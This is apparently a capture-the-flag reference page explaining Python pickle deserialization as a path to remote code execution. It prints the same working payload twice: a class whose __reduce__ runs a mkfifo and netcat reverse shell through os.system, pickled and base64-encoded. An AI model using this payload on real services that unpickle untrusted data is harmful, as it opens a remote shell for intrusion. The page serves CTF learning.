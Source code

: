 ```yaml
---
title: "Pickle"
description: "Exploit Python's insecure object deserialization through the pickle module for remote code execution."
date: 2025-10-06
draft: false
weight: 20
categories: ["Web"]
tags: ["pickle", "python", "rce", "serialization", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand how Python pickle deserialization can lead to arbitrary code execution when loading untrusted data."
aliases: ["/web/python/pickle/"]
slug: "pickle"
toc: true
---
```


## Introduction

The Python `pickle` module serializes and deserializes objects.  
When loading user-supplied pickle data, arbitrary code execution can occur.

## Example Payload

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Python's [pickle](https://docs.python.org/3/library/pickle.html) module is used to serialize and deserialize Python objects.

## RCE

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Source: [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
